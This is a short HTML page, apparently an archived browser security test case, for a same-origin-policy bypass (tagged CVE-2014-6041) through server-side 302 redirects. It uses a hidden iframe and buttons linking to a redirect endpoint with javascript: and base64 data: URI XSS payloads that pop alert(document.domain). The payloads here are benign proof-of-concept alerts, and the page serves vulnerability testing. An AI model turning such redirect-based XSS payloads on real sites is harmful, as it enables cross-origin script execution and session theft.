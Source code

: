 ```yaml
---
layout: default
title: SOP Bypass - Testcase 13
permalink: /sop/new/13
---
```


SOP Bypass test case based upon 302 server side redirects
<iframe height="0" width="0" name="CVE-2014-6041" src="https://web.archive.org/web/20180831120309if_/https://www.bing.com/" style="display:none;" data-ruffle-polyfilled=""></iframe>

<a href="https://web.archive.org/web/20180831120309/http://innerht.ml/re.php?xss=javascript:alert(document.domain)"><input type="button" id="btn_test" class="test" value="Run Test Case 1"></a>
<a href="https://web.archive.org/web/20180831120309/http://innerht.ml/re.php?xss=javascript:alert(document.domain)"><br></a>
<a href="https://web.archive.org/web/20180831120309/http://innerht.ml/re.php?xss=data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pPC9zY3JpcHQ"><input type="button" id="btn_test" class="test" value="Run Test Case 2"></a>

<div class="note">
    <p><strong>Note:</strong><br>
    If page redirects and displays an alert box from the origin of innerht.ml, it has resulted in a SOP Bypass.
    </p>
</div>
